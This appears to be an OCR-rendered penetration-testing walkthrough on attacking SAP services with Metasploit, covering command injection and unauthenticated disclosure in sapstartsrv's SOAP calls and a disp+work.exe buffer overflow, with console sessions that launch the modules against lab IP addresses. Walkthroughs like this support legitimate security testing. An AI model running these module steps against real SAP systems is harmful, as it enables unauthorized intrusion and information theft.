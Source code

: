 <i/> Exploiting SAPHostControl with Metasploit </i>
```
The component that provides the SOAP endpoint for the SAP Management Console on the TCP/50013 for the default instance is startsrv. 

According to the SAP documentation, the executable sapstartsrv runs in host mode for monitoring purposes only.
The interesting thing about this sapstartsrv component is that it’s also listening for SOAP requests. 

The GetDatabaseStatus call was attacked by Michael Jordon in order to get an arbitrary code execution from a command injection.
The exploit for this attack is also available on Metasploit as modules/exploits/windows/http/sap_host_control_cmd_ exec.rb.

It’s worth mentioning that the injection technique inspired @nmonkee when writing the OS command injections for the "SXPG_CALL_SYSTEM_SXPG_CALL_SYSTEM"
 and "SXPG_COMMAND_EXECUTE" RFC SOAP calls
(remember also to check his post for more information about these command injections). 
The GetComputerSystem call was abused by Bruno Morisson to retrieve information related to the remote host without any authentication.
The exploit for this attack is available on modules/auxiliary/scanner/sap/sap_hostctrl_getcomputersystem.rb.
The next screenshot shows the information retrieved: 

msf auxiliary(sap_hostctrl_getcomputersystem) > run
[+] 192.168.172.133:1128 - Information retrieved successfully
[*] 192.168.172.133:1128 - Response stored in /Users/juan/.msf4/loot/20131011090901_default_192.168.172.133_sap.getcomputers_832535.xml
(XML) and /Users/juan/.msf4/loot/20131011090901_default_192.168.172.133_sap.getcomputers_372729.txt (TXT)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(sap_hostctrl_getcomputersystem) > set verbose true
verbose => true
msf auxiliary(sap_hostctrl_getcomputersystem) > run
```	

<i/> SAP NetWeaver Dispatcher </i>
```
The disp+work.exe process is vulnerable to a buffer over ow (CVE-2012-2611) while handling Traces, which can be exploited with metasploit Module modules/exploits/windows/misc/sap_netweaver_dispatcher.rb: 
msf  exploit(sap_netweaver_dispatcher) > use exploit/windows/misc/sap_netweaver_dispatcher
msf  exploit(sap_netweaver_dispatcher) > set RHOST 192.168.1.149
RHOST => 192.168.1.149
msf  exploit(sap_netweaver_dispatcher) > exploit
```

